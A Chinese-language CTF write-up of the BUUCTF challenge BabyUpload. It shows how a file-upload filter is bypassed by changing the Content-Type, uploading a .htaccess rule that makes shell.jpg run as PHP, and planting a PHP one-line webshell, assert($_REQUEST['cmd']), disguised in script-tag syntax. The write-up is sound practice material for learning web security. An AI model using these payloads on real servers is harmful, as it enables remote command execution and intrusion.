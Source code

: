 # [GXYCTF2019]BabyUpload

<br>



# 0x00 题目介绍

<br>

![image-20210324151953518](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324151953.png)

<br>

参考网址：https://buuoj.cn/challenges#[GXYCTF2019]BabyUpload

<br>

## 0x01 上传检测

文件扩展名检测：后缀名不能包含ph，大小写均不可。

文件类型检测：content-type   只能是 image/jpeg

文件内容检测：过滤<?



<br>

## 0x02 详细思路

**1.抓到上传包**

![image-20210324151859910](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324151907.png)



<br>

**2.重放包，发现不止后缀名检测，这里还有文件类型检测。**

![image-20210324152122806](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324152122.png)

<br>

**3.Content-type 修改为image/jpeg，继续重放包，发现上传成功。**

![image-20210324152756880](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324152756.png)

但是只上传jpg格式远不能达到目的，这里通过burp爆破来获得可上传的后缀名！

![image-20210324161545833](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324161545.png)







我们发现.htaccess文件是可以成功上传的。

![image-20210324153439149](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324153439.png)



<br>

**4.可利用.htaccess进行解析，先上传.htaccess文件，再上传jpg文件，将shell.jpg解析为php文件，下面就是对映解析代码！**

```js
<FilesMatch "shell.jpg">

 SetHandler application/x-httpd-php

</FilesMatch>
```



![image-20210324154733415](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324154733.png)

<br>

**5.上传shell.jpg，添加PHP一句话木马，发现这里好像对<?进行了过滤。**

![image-20210324155216838](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324155216.png)

<br>

**6.使用js编写一句话进行绕过 <? 检测，得到上传地址。**

```javascript
<script language='php'>assert($_REQUEST['cmd'])</script>
```



![image-20210324155347889](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324155347.png)

<br>

**7.之后，使用webshell连接工具，或者使用show_source()函数，即可得到flag！**

![image-20210324160152207](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210324160152.png)





<br>

## 0x03 参考链接



[BUUCTF](https://buuoj.cn/challenges )

[FUZZ字典]( https://github.com/TheKingOfDuck/fuzzDicts/)

[PHP一句话木马之小马](https://www.jianshu.com/p/90473b8e6667 )







